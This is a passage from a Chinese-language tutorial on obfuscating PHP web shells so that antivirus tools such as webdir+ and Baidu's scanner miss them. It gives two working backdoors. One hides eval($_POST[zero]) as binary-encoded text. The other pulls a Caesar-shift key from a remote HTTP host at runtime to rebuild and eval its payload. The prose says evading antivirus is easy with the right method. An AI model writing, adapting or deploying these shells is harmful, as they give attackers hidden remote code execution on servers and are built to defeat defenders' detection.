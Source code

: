 二进制转化 payload

```
<?php

class KUYE{
        public $DAXW = null;
        public $LRXV = null;
        function __construct(){
        $this->DAXW = '1100101 1110110 1100001 1101100 101000 100100 1011111 1010000 1001111 1010011 1010100 1011011 1111010 1100101 1110010 1101111 1011101 101001 111011';
        $this->LRXV = @BinToStr($this->DAXW);
        @eval("/*GnSpe=u*/".$this->LRXV."/*GnSpe=u*/");
        }}
new KUYE();
function BinToStr($str){
    $arr = explode(' ', $str);
    foreach($arr as &$v){
        $v = pack("H".strlen(base_convert($v, 2, 16)), base_convert($v, 2, 16));
    }

    return join('', $arr);
}
?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavzP8tGlJ0LAqI5btOXNcjZyCZBibGEfpznZa6Z7aKVWL0MmtYr23ZHEKHBPLm41vRWvyXLc05iaRWGg/640?wx_fmt=png)  
这里就不列举了 只要方法正确 绕过杀软是很简单的

**0x02：通过 http 获得关键参数**

上面那个凯撒密码不是被 webdir + 杀了吗 我们在这里将他绕过

众所周知凯撒密码需要设置往前或往后移几位 ascii 这个参数可以设置为解密方法的输入参数 经过测试 此参数在源码中会被沙盒跑出了 因此不能过百度杀毒 ，那么 我不写本地不就行了 我直接起一个 http 服务访问文本获得参数值。

```
<?php
class FKPC{
        function __construct(){
        $url = "http://xxxxx:8080/1.txt";
        $fp = fopen($url, 'r');
        stream_get_meta_data($fp);
        while (!feof($fp)) {
            $body.= fgets($fp, 1024);
        }
        $this->x = $body;
        $this->TQYV = "bs^i%!\MLPQXwbolZ&8";
        $this->WZDM = @HHGJ($this->TQYV,$this->x);
        @eval("/*#jkskjwjqo*/".$this->WZDM."/*sj#ahajsj*/");
        }}
new FKPC();

function HHGJ($UyGv,$x) {
$svfe = [];
$mxAS = '';
$f = $UyGv;
for ($i=0;$i<strlen($f);$i++)
{
    $svfe[] = chr((ord($f[$i])+$x));
}
$mxAS = implode($svfe);
return $mxAS ;
}
?>
```
